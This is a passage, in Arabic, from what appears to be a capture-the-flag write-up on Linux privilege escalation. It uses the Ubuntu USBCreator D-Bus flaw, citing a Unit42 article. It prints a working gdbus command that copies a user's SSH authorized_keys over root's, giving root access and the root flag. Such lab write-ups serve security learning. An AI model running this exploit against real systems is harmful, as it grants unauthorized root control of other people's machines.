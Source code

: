 
### 1.4 Privilege Escalation

# 1.4.1 Usb creator


نبحث عن

في جوجل usb creator dbus privilege escalation 


نجد مقال يتحدث عنه

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/


# 1.4.2 exploit

 
 root الخاص ب authorized_keys نقوم بالاستغلال وذلك باستبدال

 ثم نتصل من nadav الخاص ب authorized_keys ب 

 root مباشرة ب nadav

 : نكتب الامر التالي

```
gdbus call --system --dest com.ubuntu.USBCreator --object-path
/com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image
/home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true

```


root flag :D نقوم بسحب


![Desktop View](/img/psg/20.png)
